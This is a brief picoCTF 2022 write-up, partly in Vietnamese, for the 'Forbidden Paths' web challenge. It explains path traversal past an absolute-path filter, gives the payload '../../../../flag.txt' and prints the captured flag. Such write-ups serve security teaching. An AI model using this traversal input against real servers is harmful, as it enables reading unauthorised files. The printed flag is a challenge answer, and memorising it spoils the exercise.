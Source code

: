 # Forbidden Paths
##### Tags: `picoCTF 2022` `Web Exploitation`
### DESCRIPTION
Can you get the flag? Here's the [website](http://saturn.picoctf.net:58179/). We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
##### Một challenge liên quan đến kỹ thuật tấn công `Traverse Path`, khai thác lỗ hổng của việc không kiểm soát input rõ ràng, đi qua các thư mục trong hệ thống và truy cập các file không được ủy quyền.
##### Vì biết file nằm trong `/usr/share/nginx/html/flag.txt`, nên chỉ cần dùng `/..` thay cho tên cụ thể (hay absolute path mà chương trình không cho phép):
```
../../../../flag.txt
-> picoCTF{7h3_p47h_70_5ucc355_6db46514}
```
##### =>  Lấy flag thành công!
    

